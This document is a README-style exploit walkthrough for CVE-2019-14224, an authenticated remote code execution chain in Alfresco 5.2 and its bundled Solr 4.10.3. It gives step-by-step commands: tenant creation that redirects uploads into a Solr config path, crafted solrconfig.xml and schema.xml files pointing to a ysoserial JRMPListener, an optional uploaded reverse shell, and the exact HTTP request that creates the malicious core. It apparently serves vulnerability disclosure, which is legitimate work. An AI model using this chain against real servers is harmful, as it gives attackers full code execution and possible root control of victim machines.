 # CVE-2019-14224: Alfresco Authenticated Remote Code Execution

By leveraging multiple components in the Alfresco (version 5.2) and Solr (version 4.10.3, ships by default with this version of Alfresco) applications, a exploit chain was observed that allows attacker to obtain remote code execution under the user the Alfresco/Solr software is running as.
<br/>
Because no priviledge downgrade is made at runtime, if the software is started by a high privilege user (Ex: "root" or "NT Authority\System"), then a successfull attack will offer the attacker complete control of the victim machine.
<br/>
This exploit was tested and works on both Windows and Linux machines.

### Requirements:
For successful exploitation of the vulnerability, the attacker will require:
- Access to Alfresco Admin Console (Admin Credentials Required)
- Access to Alfresco WebDAV or Alfresco Share
- Access to Solr interface

### STEPS:

1. First step in the attack requires to access Solr and identify the path to a valid core. We are interested in this path because Solr has a “Directory and File Reading” feature which will allow us to bypass the pseudo-random UUIDv4 file naming convention used by Alfresco when a user uploads a file in the web application.
<img src="Solr Core Path.png">

2. Knowing that the path "/opt/alfresco-community/solr4/workspace-SpacesStore/conf/" is listed by Solr, we use the Alfresco Admin Console to create a new tenant, (username : admin@hexor, password : hexor), which will write the uploaded files into the listed location.
<br/>
Command:

```
create hexor hexor /opt/alfresco-community/solr4/workspace-SpacesStore/conf

```

<img src="Create Evil Tenant.png">

3. Next exploitation step is to upload the specially crafted Solr configuration files to the target machine. By logging in with the above created user (admin@hexor : hexor) to either the Alfresco Share or the Alfresco WebDAV, we can upload the files to a known location.
<img src="Alfresco Share.png">
<img src="Alfresco Webdav.png">
<strong>Example:</strong> Using Cadaver to upload files using WebDAV.
<img src="WebDAV Cadaver Upload.png">

4. We use Solr's listing feature in order to find the name of the uploaded files.
<img src="Solr Listing.png">
<strong>Note:</strong> Two files are mandatory to be uploaded:

- [solrconfig.xml](Solr%20Conf%20Files/solrconfig.xml) = the configuration files used by Solr to configure a core. This file points back to our ysoserial  listener via a "jmx" reference. 
- [schema.xml](Solr%20Conf%20Files/schema.xml) = file required by Solr when creating a core.
- Optionally a third file can be uploaded containing a reverse shell file (Ex. bash, python, perl, elf, exe, etc.), which will later be used with ysoserial.

5. Start ysoserial server:

```
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 4444 ROME "<COMMAND_TO_EXECUTE>"
```

6. Create Solr Core:

- Request:

```
GET /solr4/admin/cores?wt=json&indexInfo=false&action=CREATE&name=hexor_core&instanceDir=/&dataDir=/&config=/opt/alfresco-community/solr4/workspace-SpacesStore/conf/2019/5/15/9/11/30cc3b35-c48e-47a3-b615-be37d8161ac1.bin&schema=/opt/alfresco-community/solr4/workspace-SpacesStore/conf/2019/5/15/9/11/10222c0c-4d2d-4597-8d40-47e2081a2eb1.bin&collection=&shard=&_=1557914582265 HTTP/1.1
Host: <TARGET_IP>:8443
X-Requested-With: XMLHttpRequest
```

- Response:

```
HTTP/1.1 400 Bad Request
Server: Apache-Coyote/1.1
Content-Type: application/json;charset=UTF-8
Date: Wed, 15 May 2019 16:15:38 GMT
Connection: close
Content-Length: 165

{"responseHeader":{"status":400,"QTime":189},"error":{"msg":"Error CREATEing SolrCore 'hexor_core': Unable to create core [hexor_core] Caused by: null","code":400}}
```

<img src="RCE.png">

##### Side Note:
- "/opt/alfresco-community/solr4/workspace-SpacesStore/conf/2019/5/15/9/11/30cc3b35-c48e-47a3-b615-be37d8161ac1.bin" is the absolute path to the malicious "solrconfig.xml" file
- "/opt/alfresco-community/solr4/workspace-SpacesStore/conf/2019/5/15/9/11/10222c0c-4d2d-4597-8d40-47e2081a2eb1.bin" is the absolute path to the malicious "schema.xml" file
- "/opt/alfresco-community/solr4/workspace-SpacesStore/conf/2019/5/15/9/11/e9ceebf5-8aa4-466d-9402-d543a9f52946.bin" is the absolute path to the malicious python reverse shell file
